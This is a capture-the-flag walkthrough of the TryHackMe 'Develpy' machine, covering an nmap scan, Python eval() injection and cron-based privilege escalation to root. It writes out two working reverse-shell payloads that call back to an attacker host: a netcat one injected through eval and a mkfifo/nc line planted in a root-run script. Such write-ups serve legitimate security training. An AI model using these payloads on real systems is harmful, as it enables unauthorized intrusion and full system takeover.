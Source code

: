 # Develpy

***

Platform: Tryhackme

Difficulty: Medium

Initial Access: Misconfigured python script running on open port

Privilege escalation: Misconfigured file permission and weak security practices.

***

Nmap scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/develpy]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.201.67.205 -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 23:12 EDT
Nmap scan report for 10.201.67.205
Host is up (0.27s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
10000/tcp open  snet-sensor-mgmt?
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port            | Methodology                             |
| --------------- | --------------------------------------- |
| 22 (SSH)        | Potentially for later use.              |
| 10000 (unknown) | Looks like some kind of custom service. |

***

### Initial Access

Connected to the port 10000 via netcat, some type of python script is running which is asking for a input.

<figure><img src="https://github.com/user-attachments/assets/93100733-b0a8-400e-bff9-6e391819233b" alt=""><figcaption></figcaption></figure>

This type of service often contains vulnerabilities in the way it handles your input (e.g., `eval()` on Python input, insecure `int()` casting without sanitization, or even command injection if it’s running shell commands in the background).

We can try some different payloads instead of providing what it wants from us.

<figure><img src="https://github.com/user-attachments/assets/98c7c0ad-0f00-482b-8689-4e7296d63369" alt=""><figcaption></figcaption></figure>

Ok, that means it’s using `eval()` on your input, which is executing commands directly on the target.

We can now gain reverse shell through that.

```bash
payload = __import__('os').system('nc <ip> 4445 -e /bin/sh')
```

&#x20;

<figure><img src="https://github.com/user-attachments/assets/132fff76-445d-4233-8c76-74a5c295d347" alt=""><figcaption></figcaption></figure>

<figure><img src="https://github.com/user-attachments/assets/f0e56d05-7d09-4e57-96bf-b0f9ef9613f9" alt=""><figcaption></figcaption></figure>

Grabbed user.txt from king’s home directory

```bash
king@ubuntu:~$ ls -la
ls -la
total 324
drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Aug  9 20:25 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
king@ubuntu:~$ cat user.txt
cat user.txt
cf85ff7..............REDACTED
```

***

### Privilege Escalation

There were some suspicious .sh files like `run.sh, root.sh` in king’s home directory

<figure><img src="https://github.com/user-attachments/assets/2a47db0f-33e1-4243-bfab-c51bb3310260" alt=""><figcaption></figcaption></figure>

*   root.sh



    Only have read access to this file, and it’s running some king of python file inside `/root/company/media` directory.

    <figure><img src="https://github.com/user-attachments/assets/6ea2007d-2858-40ab-985e-123539da1601" alt=""><figcaption></figcaption></figure>
*   run.sh



    It’s the file which is serving that exploit.py file on port 10000, useless for privilege escalation.

    <figure><img src="https://github.com/user-attachments/assets/81166b18-8586-431e-950a-269c7e2a800c" alt=""><figcaption></figcaption></figure>

Now, we can check cronjobs running in the background.

<figure><img src="https://github.com/user-attachments/assets/48283574-629a-42a9-8a1a-288d7fad63d1" alt=""><figcaption></figcaption></figure>

Ok, root is firstly changing directory to `/home/king` which is owned by King and then executing root.sh file.

As can king have full permission to it’s home directory, it can remove that existing root.sh file and create a new root.sh file with reverse shell in it. As root will execute that file, we will get root’s shell.

```bash
reverse-shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 4446 >/tmp/f
```

<figure><img src="https://github.com/user-attachments/assets/43947e13-4299-49bb-88e2-9804007e1ad9" alt=""><figcaption></figcaption></figure>

After a few seconds, got root’s shell.

<figure><img src="https://github.com/user-attachments/assets/84c05a04-1887-41a2-b7f6-143ab2abb5d9" alt=""><figcaption></figcaption></figure>

Grabbed root.txt from root directory.

```bash
# cd /root
# ls -la
total 32
drwx------  4 root root 4096 Aug 25  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  4 root root 4096 Aug 27  2019 company
-rw-r--r--  1 root root 1185 Nov 12  2018 .gitignore
drwxr-xr-x  2 root root 4096 Aug 25  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 25  2019 root.txt
# cat root.txt
9c37646..............REDACTED
```

***

That’s it for this machine.✅
